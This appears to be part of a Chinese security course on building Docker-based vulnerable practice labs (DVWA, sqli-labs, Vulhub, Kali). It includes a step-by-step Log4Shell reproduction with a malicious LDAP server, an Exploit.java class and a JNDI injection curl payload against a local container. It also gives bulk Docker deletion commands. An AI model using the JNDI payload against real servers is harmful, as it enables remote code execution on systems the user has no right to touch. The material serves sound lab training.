  dvwa:
    image: vulnerables/web-dvwa
    ports:
      - "80:80"
    volumes:
      - dvwa_data:/var/lib/mysql      # 数据库持久化
      - ./uploads:/var/www/html/hackable/uploads  # 上传文件持久化
    restart: unless-stopped

volumes:
  dvwa_data:
```

> 🎯 **作用**：即使 `docker compose down`，DVWA 数据库和上传文件也不会丢。
>

---

## 3.8 实战：用 Compose 搭建 LAMP + DVWA
```yaml
# docker-compose.yml
version: "3.8"

services:
  dvwa:
    image: vulnerables/web-dvwa
    container_name: dvwa
    ports:
      - "8001:80"
    networks:
      - lab
    restart: unless-stopped

  pikachu:
    image: area39/pikachu
    container_name: pikachu
    ports:
      - "8002:80"
    networks:
      - lab
    restart: unless-stopped

  sqli-labs:
    image: acgpiano/sqli-labs
    container_name: sqli-labs
    ports:
      - "8003:80"
    networks:
      - lab
    restart: unless-stopped

networks:
  lab:
    driver: bridge
```

```bash
docker compose up -d
# 一键启动 3 个靶场
# http://localhost:8001  DVWA
# http://localhost:8002  Pikachu
# http://localhost:8003  sqli-labs
```

> 🎯 **管理优势**：一条 `docker compose down` 全关，配置文件可保存。
>

---

## 3.9 课时 3 小结
| 命令 | 作用 |
| --- | --- |
| `docker compose up -d` | 启动 |
| `docker compose down` | 停止删除 |
| `docker compose down -v` | 同时删卷 |
| `docker compose logs -f` | 看日志 |
| `docker compose exec 服务 bash` | 进入 |
| `docker compose ps` | 状态 |


### 课间实操（20 min）
1. 安装/验证 Docker Compose。
2. 写一份 `docker-compose.yml`，同时启动 DVWA + Pikachu。
3. 验证两个靶场都能访问。
4. 用 `docker compose exec dvwa bash` 进入容器。
5. `docker compose down` 关闭，再 `docker compose up -d` 重启。
6. 添加数据持久化卷，测试数据不丢。

---

# 第 4 课时：实战 —— 一键搭建所有安全靶场
## 4.1 综合靶场集合（一键启动）
### 4.1.1 超级 docker-compose.yml
把下面内容保存为 `docker-compose.yml`：

```yaml
version: "3.8"

services:
  # ========== 综合漏洞靶场 ==========
  dvwa:
    image: vulnerables/web-dvwa
    container_name: lab-dvwa
    ports: ["8001:80"]
    restart: unless-stopped

  pikachu:
    image: area39/pikachu
    container_name: lab-pikachu
    ports: ["8002:80"]
    restart: unless-stopped

  bwapp:
    image: raesene/bwapp
    container_name: lab-bwapp
    ports: ["8003:80"]
    restart: unless-stopped

  juice-shop:
    image: bkimminich/juice-shop
    container_name: lab-juice
    ports: ["8004:3000"]
    restart: unless-stopped

  webgoat:
    image: webgoat/goatandwolf
    container_name: lab-webgoat
    ports: ["8005:8080", "8006:9090"]
    restart: unless-stopped

  # ========== 专题靶场 ==========
  sqli-labs:
    image: acgpiano/sqli-labs
    container_name: lab-sqli
    ports: ["8007:80"]
    restart: unless-stopped

  upload-labs:
    image: c0ny1/upload-labs:latest
    container_name: lab-upload
    ports: ["8008:80"]
    restart: unless-stopped

  xss-labs:
    image: citation2000/xss-labs
    container_name: lab-xss
    ports: ["8009:80"]
    restart: unless-stopped

  # ========== 工具 ==========
  kali:
    image: kalilinux/kali-rolling
    container_name: lab-kali
    command: tail -f /dev/null
    ports: ["8010:22"]
    restart: unless-stopped

networks:
  default:
    name: security-lab
```

### 4.1.2 启动
```bash
docker compose up -d
# 等 1-3 分钟拉镜像
docker compose ps
```

### 4.1.3 访问地址
| 靶场 | 地址 | 默认账号 |
| --- | --- | --- |
| DVWA | [http://localhost:8001](http://localhost:8001) | admin/password |
| Pikachu | [http://localhost:8002](http://localhost:8002) | - |
| bWAPP | [http://localhost:8003](http://localhost:8003) | bee/bug |
| Juice Shop | [http://localhost:8004](http://localhost:8004) | - |
| WebGoat | [http://localhost:8005](http://localhost:8005) | 注册 |
| SQLi-Labs | [http://localhost:8007](http://localhost:8007) | - |
| Upload-Labs | [http://localhost:8008](http://localhost:8008) | - |
| XSS-Labs | [http://localhost:8009](http://localhost:8009) | - |
| Kali | `docker exec -it lab-kali bash` | - |


### 4.1.4 关闭所有
```bash
docker compose down
docker compose down -v    # 同时清卷
```

---

## 4.2 复现真实 CVE：Vulhub
### 4.2.1 Vulhub 是什么？
> [Vulhub](https://vulhub.org) 是国内安全团队维护的**真实漏洞环境库**，覆盖 Log4j、Fastjson、Shiro、Struts2、WebLogic 等数百个 CVE，docker-compose 一键复现。

### 4.2.2 安装
```bash
git clone https://github.com/vulhub/vulhub
cd vulhub
ls
# 看到按漏洞分类的目录
```

### 4.2.3 实战：复现 Log4Shell (CVE-2021-44228)
#### 步骤 1：启动漏洞环境
```bash
cd vulhub/log4j/CVE-2021-44228
docker compose up -d
# 等待拉镜像完成
docker compose ps
# 看到 solr 服务在 8983 端口
```

#### 步骤 2：访问漏洞靶机
浏览器访问 `http://localhost:8983` → Apache Solr 后台。

#### 步骤 3：准备接收 JNDI 请求
```bash
# 启动一个恶意 LDAP / HTTP 服务（用 marshalsec）
git clone https://github.com/mbechler/marshalsec
cd marshalsec

#临时更改jdk的版本为1.8，jdk版本过高时，mvn编译不了
$env:JAVA_HOME = "D:\code\Env\java8\JDK"
$env:PATH = "D:\code\Env\java8\JDK\bin;" + $env:PATH   #⭐把 JDK8 的 bin 插到 PATH 最前面
java -version        # 更改后查看一下版本

mvn clean package -DskipTests
# 启动 LDAP 服务
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

#### 步骤 4：编译恶意类
```java
// Exploit.java
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("touch /tmp/pwned");
        } catch (Exception e) {}
    }
}
javac Exploit.java
# 启动 HTTP 服务托管 class
python3 -m http.server 8888   # linux
py -m http.server 8888        #Windows
```

#### 步骤 5：触发漏洞
```bash
curl -v "http://localhost:8983/solr/admin/cores?action=\${jndi:ldap://127.0.0.1:1389/Exploit}"
```

#### 步骤 6：验证
```bash
docker compose exec solr ls /tmp
# 看到 pwned 文件 → 复现成功 ✓
```

#### 步骤 7：清理
```bash
docker compose down -v
```

> 🎯 **学习建议**：在 Vulhub 选 5-10 个经典 CVE 复现，每个写一份**漏洞分析报告**：
>
> + 漏洞原理
> + 影响版本
> + 复现过程
> + Payload
> + 检测规则
> + 修复方案
>

### 4.2.4 推荐 CVE 清单（必刷）
| CVE | 漏洞 | 难度 | 影响面 |
| --- | --- | :---: | --- |
| **CVE-2021-44228** | Log4Shell (Log4j JNDI) | ⭐⭐ | 全球核弹 |
| **CVE-2017-10271** | WebLogic WLS 反序列化 | ⭐⭐ | 国产站重灾区 |
| **CVE-2016-4437** | Shiro 550 rememberMe | ⭐⭐ | Java 圈 |
| **CNVD-2017-04353** | Fastjson 1.2.24 反序列化 | ⭐⭐ | 国内常见 |
| **CVE-2017-5638** | Struts2 S2-045 | ⭐⭐ | Equifax |
| **CVE-2014-6271** | Shellshock (Bash) | ⭐ | 老牌经典 |
| **CVE-2017-12635** | CouchDB 权限绕过 | ⭐⭐ | - |
| **CVE-2018-2894** | WebLogic 任意文件上传 | ⭐⭐⭐ | - |


---

## 4.3 自定义镜像：写 Dockerfile（进阶）
### 4.3.1 Dockerfile 是什么？
> 一个文本文件，包含一条条指令，告诉 Docker **怎么构建镜像**。
>

### 4.3.2 基本指令
| 指令 | 含义 | 例子 |
| --- | --- | --- |
| `FROM` | 基础镜像 | `FROM ubuntu:22.04` |
| `RUN` | 构建时执行命令 | `RUN apt update && apt install -y nginx` |
| `COPY` | 拷贝文件到镜像 | `COPY ./app /var/www/html` |
| `WORKDIR` | 设置工作目录 | `WORKDIR /app` |
| `ENV` | 设置环境变量 | `ENV PORT=8080` |
| `EXPOSE` | 声明端口 | `EXPOSE 8080` |
| `CMD` | 启动命令 | `CMD ["nginx", "-g", "daemon off;"]` |
| `ENTRYPOINT` | 固定启动命令 | 同上 |


### 4.3.3 示例：自建带 Webshell 的 PHP 靶机
```dockerfile
# Dockerfile
FROM php:7.4-apache

# 启用 MySQL 扩展
RUN docker-php-ext-install mysqli pdo pdo_mysql

# 拷贝自定义 PHP 文件
COPY ./src/ /var/www/html/

# 给上传目录权限
RUN chown -R www-data:www-data /var/www/html

EXPOSE 80
```

```bash
# 构建镜像
docker build -t my-php-lab:1.0 .

# 运行
docker run -d -p 80:80 --name my-lab my-php-lab:1.0
```

> 🎯 **场景**：搭一个"私人定制"靶场，预置你想练习的漏洞环境。
>

---

## 4.4 数据库靶场（独立练习 SQL）
```yaml
# docker-compose.yml
version: "3.8"
services:
  mysql:
    image: mysql:5.7
    environment:
      MYSQL_ROOT_PASSWORD: root
      MYSQL_DATABASE: testdb
    ports: ["3306:3306"]
    volumes:
      - mysql_data:/var/lib/mysql
      - ./init.sql:/docker-entrypoint-initdb.d/init.sql
    restart: unless-stopped

  adminer:
    image: adminer
    ports: ["8080:8080"]
    depends_on: [mysql]
    restart: unless-stopped

volumes:
  mysql_data:
```

```sql
-- init.sql
CREATE TABLE users (id INT, name VARCHAR(50), password VARCHAR(50));
INSERT INTO users VALUES 
  (1, 'admin', '123456'),
  (2, 'guest', 'guest'),
  (3, 'root', 'toor');
```

```bash
docker compose up -d
# 浏览器访问 http://localhost:8080
# 系统: MySQL  服务器: mysql  用户: root  密码: root
```

> 🎯 **学习 SQL 注入必备**：手写注入 SQL，看返回结果。
>

---

## 4.5 Kali Linux 容器化
```bash
# 拉取 Kali 镜像
docker pull kalilinux/kali-rolling

# 启动并安装工具
docker run -it --name kali kalilinux/kali-rolling bash

# 容器内：装常用工具
apt update
apt install -y nmap sqlmap nikto dirb gobuster wfuzz hydra

# 提交为新镜像（保存改动）
docker commit kali my-kali:1.0

# 以后用新镜像
docker run -it --name kali2 my-kali:1.0 bash
```

> 💡 **替代方案**：直接装 Kali 虚拟机更舒服，但容器版启动快、占用小。
>

---

## 4.6 清理与维护
### 4.6.1 一键清理
```bash
# 停止所有容器
docker stop $(docker ps -aq)

# 删除所有容器
docker rm $(docker ps -aq)

# 删除所有镜像
docker rmi $(docker images -q)

# 删除所有卷
docker volume rm $(docker volume ls -q)

# 删除所有网络
docker network rm $(docker network ls -q)

# 一键清理所有未使用资源
docker system prune -a --volumes
```

> ⚠️ **慎用**！会删除所有未使用的资源。
>

### 4.6.2 查看磁盘占用
```bash
docker system df
# 输出：
# TYPE            TOTAL   ACTIVE  SIZE      RECLAIMABLE
# Images          12      5       5.6GB     3.2GB (57%)
# Containers      8       3       200MB     100MB (50%)
# Local Volumes   5       3       500MB     200MB (40%)
```

### 4.6.3 镜像搬家（磁盘不够时）
```bash
# Docker Desktop → Settings → Resources → Disk image location
# 改到 D 盘或其他大盘

# Linux：改 /etc/docker/daemon.json
{
  "data-root": "/data/docker"
}
```

---

## 4.7 常见问题 FAQ
### Q1: `Cannot connect to the Docker daemon`
**原因**：Docker 守护进程没启动。

**解决**：

+ Windows/Mac：启动 Docker Desktop
+ Linux：`sudo systemctl start docker`

### Q2: `permission denied`
**原因**（Linux）：当前用户不在 docker 组。

**解决**：

```bash
sudo usermod -aG docker $USER
# 注销重新登录
```

### Q3: `port is already allocated`
**原因**：本机端口被占用。

**解决**：

```bash
# 查谁占用了
lsof -i :80            # Mac/Linux
netstat -ano | findstr :80    # Windows

# 换端口
docker run -p 8081:80 ...
```

### Q4: 拉镜像超时 / 慢
**解决**：配国内镜像加速（见 1.5.5）。

### Q5: Mac M 系列报 `no matching manifest`
**原因**：镜像只有 x86 版本。

**解决**：强制用 x86 模式

```bash
docker run --platform linux/amd64 ...
```

### Q6: `no space left on device`
**原因**：磁盘满了。

**解决**：

```bash
docker system prune -a --volumes
```

### Q7: 容器自动退出
**原因**：容器内没有前台进程。

**解决**：

```bash
# 让容器有"事可做"
docker run -d ubuntu tail -f /dev/null
# 或
docker run -d ubuntu sleep infinity
```

### Q8: VS Code 连不上容器
```bash
# 装 Docker 扩展 + Dev Containers 扩展
# F1 → "Dev Containers: Attach to Running Container"
```

---

## 4.8 毕业 Lab：完整渗透环境搭建
### 任务清单
1. ✅ 安装 Docker + Compose，配置国内镜像
2. ✅ 编写 `docker-compose.yml`，一键启动 DVWA + Pikachu + sqli-labs + Juice Shop
3. ✅ 用 Vulhub 复现 Log4Shell，截图证明 RCE
4. ✅ 自建一个带 MySQL + Adminer 的 SQL 练习环境
5. ✅ 容器化一个 Kali（含 nmap / sqlmap / nikto 等工具）
6. ✅ 数据持久化：让 DVWA 重启后数据不丢
7. ✅ 清理：用一行命令删除所有靶场

### 报告模板
```markdown
# Docker 靶场环境搭建报告

## 1. 环境信息
- 操作系统：
- Docker 版本：
- Compose 版本：

## 2. 拉取的镜像列表
[贴 docker images 输出]

## 3. 启动的靶场列表
| 靶场 | URL | 用途 |
|------|-----|------|

## 4. Log4Shell 复现截图
[贴 4 张截图：环境启动 / Payload / 反弹 / 验证]

## 5. 自定义 docker-compose.yml
[贴 yml 内容]

## 6. 遇到的问题及解决
| 问题 | 解决方案 |
|------|---------|

## 7. 学习心得
（200 字以上）
```

---

## 4.9 课时 4 小结
| 模块 | 要点 |
| --- | --- |
| 一键靶场 | 一个 yml 启动 8 个靶场 |
| Vulhub | 复现真实 CVE 必备 |
| Dockerfile | 自定义镜像进阶 |
| 数据库 | MySQL + Adminer 练 SQL |
| Kali 容器 | 工具随身带 |
| 清理 | `docker system prune` 一键清 |
| FAQ | 8 个常见坑都过一遍 |


---

# 附录 A：必背命令速查
## 镜像类
```bash
docker pull 镜像名              # 拉镜像
docker images                   # 列镜像
docker rmi 镜像名/ID            # 删镜像
docker image prune              # 清未使用
docker build -t 名字:tag .      # 构建
docker tag 旧名 新名            # 改名
docker save -o file.tar 镜像    # 导出
docker load -i file.tar         # 导入
```

## 容器类
```bash
docker run -d -p 8080:80 --name xx 镜像    # 启动
docker ps                       # 运行中
docker ps -a                    # 全部
docker start/stop/restart 容器  # 生命周期
docker rm 容器                  # 删除
docker rm -f 容器               # 强删
docker exec -it 容器 bash       # 进入
docker logs -f 容器             # 日志
docker cp 本地 容器:路径        # 拷贝
docker inspect 容器             # 详情
docker stats                    # 实时资源
```

## Compose
```bash
docker compose up -d            # 启动
docker compose down             # 停止
docker compose down -v          # 停止+删卷
docker compose ps               # 状态
docker compose logs -f          # 日志
docker compose exec 服务 bash   # 进入
docker compose pull             # 更新镜像
docker compose build            # 重新构建
```

## 系统
```bash
docker info                     # 系统信息
docker system df                # 磁盘占用
docker system prune -a          # 清所有未用
docker volume ls                # 列卷
docker network ls               # 列网络
```

---

# 附录 B：Dockerfile 指令速查
| 指令 | 用途 |
| --- | --- |
| FROM | 基础镜像 |
| RUN | 构建时执行 |
| COPY | 拷文件进镜像 |
| ADD | 同 COPY + 支持解压 URL |
| WORKDIR | 工作目录 |
| ENV | 环境变量 |
| ARG | 构建参数 |
| EXPOSE | 声明端口 |
| VOLUME | 声明卷 |
| USER | 切换用户 |
| LABEL | 标签 |
| CMD | 默认启动命令 |
| ENTRYPOINT | 固定启动命令 |
| HEALTHCHECK | 健康检查 |


---

# 附录 C：渗透靶场镜像清单
| 靶场 | 镜像 | 端口 |
| --- | --- | :---: |
| DVWA | `vulnerables/web-dvwa` | 80 |
| Pikachu | `area39/pikachu` | 80 |
| bWAPP | `raesene/bwapp` | 80 |
| Juice Shop | `bkimminich/juice-shop` | 3000 |
| WebGoat | `webgoat/goatandwolf` | 8080 |
| SQLi-Labs | `acgpiano/sqli-labs` | 80 |
| Upload-Labs | `c0ny1/upload-labs` | 80 |
| XSS-Labs | `citation2000/xss-labs` | 80 |
| DSVW | `appsecco/dsvw` | 65412 |
| Mutillidae | `citizenstig/mutillidae` | 80 |
| Web archive | `jvconesa/webdav` | 80 |
| Kali | `kalilinux/kali-rolling` | - |
| MySQL | `mysql:5.7` | 3306 |
| Adminer | `adminer` | 8080 |


---

# 附录 D：推荐资源
| 类型 | 资源 |
| --- | --- |
| 官方文档 | [docs.docker.com](https://docs.docker.com) |
| Compose 文档 | [docs.docker.com/compose](https://docs.docker.com/compose/) |
| Docker Hub | [hub.docker.com](https://hub.docker.com) |
| Vulhub | [vulhub.org](https://vulhub.org) |
| 视频 | B 站搜"Docker 入门到精通" |
| 书 | 《Docker 容器与容器云》 |
| 在线练习 | [Killercoda](https://killercoda.com) |
| 速查 | [dockerlabs.collabnix.com](https://dockerlabs.collabnix.com) |


---

# 课后作业（提交截止：下次课前）
## 一、基础题（30 分）
1. 解释容器与虚拟机的 3 个核心区别。
2. 默写 `docker run` 的 6 个常用选项。
3. 解释 `docker compose up -d` 和 `docker compose start` 的区别。
4. 为什么要配置国内镜像加速？怎么配？

## 二、实操题（50 分）
1. 安装 Docker + Compose，跑通 hello-world。
2. 编写一份 `docker-compose.yml`，同时启动 **DVWA + Pikachu + sqli-labs + Juice Shop** 四个靶场。
3. 用 Vulhub 复现 Log4Shell，截图证明 RCE 成功。
4. 用 `docker exec` 进入 DVWA 容器，修改一处 PHP 文件并验证。
5. 演示数据持久化：往 MySQL 容器写数据 → `docker compose down` → 重启后数据还在。


## 课程回顾（必背 30 条）
1. Docker = 容器化平台
2. 容器轻量共享内核，虚拟机重独立 OS
3. 三概念：镜像/容器/仓库
4. Client → Daemon → Registry
5. Win/Mac 装 Docker Desktop
6. Linux 用 apt/yum 装 docker-ce
7. **国内必配镜像加速**
8. `docker run hello-world` 验证
9. `docker pull` 拉镜像
10. `docker images` 列镜像
11. `docker rmi` 删镜像
12. `docker run -d -p 8080:80` 启动容器
13. `-p` 端口映射，`-v` 卷挂载，`-e` 环境变量
14. `docker ps` 看运行中，`-a` 看全部
15. `docker stop/start/restart` 生命周期
16. `docker rm` 删容器
17. `docker exec -it 容器 bash` 进入容器
18. `docker logs -f` 看日志
19. `docker cp` 主机容器互拷
20. Docker Compose 编排多容器
21. Win/Mac Desktop 自带 Compose
22. v2 用 `docker compose`（空格）
23. `docker compose up -d` 启动
24. `docker compose down` 停止
25. `down -v` 同时删卷
26. yml 里 services + networks + volumes
27. 同 Compose 项目服务可互访（用服务名）
28. Vulhub 复现真实 CVE
29. `docker system prune -a` 清理一切
30. **靶场仅本机，授权是底线**
